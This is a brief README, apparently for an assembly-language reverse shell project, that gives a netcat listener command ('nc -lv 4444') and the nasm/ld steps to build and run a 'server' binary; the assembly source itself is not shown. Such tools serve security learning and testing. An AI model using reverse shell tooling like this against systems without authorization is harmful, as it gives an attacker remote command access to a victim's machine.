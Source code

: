 # ReverseShell_ASM

On a terminal first launch this command :
```nc -lv 4444```
And on an another terminal :
```nasm -f elf32 server.asm && ld -m elf_i386 -s -o server server.o && ./server```


